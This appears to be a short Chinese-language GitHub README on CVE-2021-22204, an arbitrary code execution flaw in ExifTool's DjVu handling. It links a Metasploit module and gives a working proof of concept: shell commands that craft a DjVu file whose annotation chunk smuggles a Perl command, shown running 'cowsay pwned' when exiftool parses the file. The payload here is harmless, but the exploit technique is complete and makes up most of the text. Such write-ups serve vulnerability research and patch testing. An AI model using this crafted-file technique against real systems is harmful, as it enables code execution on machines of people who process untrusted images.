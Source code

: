 # ExifTool 任意代码执行漏洞 (CVE-2021-22204)


ExifTool 7.44及更高版本中，对DjVu文件格式中的用户数据进行不正确的中和，允许在解析恶意图像时执行任意代码。

Metasploit module:https://github.com/rapid7/metasploit-framework/pull/15185

poc：

```
$ printf 'P1 1 1 0' > moo.pbm
   $ cjb2 moo.pbm moo.djvu
   $ printf 'ANTa\0\0\0\40"(xmp(\\\n".qx(cowsay pwned>&2);#"' >> moo.djvu
   $ exiftool moo.djvu > /dev/null
    _______
   < pwned >
    -------
           \   ^__^
            \  (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
```

ref:

* https://nvd.nist.gov/vuln/detail/CVE-2021-22204
* https://twitter.com/wcbowling/status/1385803927321415687
* https://www.openwall.com/lists/oss-security/2021/05/10/5
* https://github.com/se162xg/CVE-2021-22204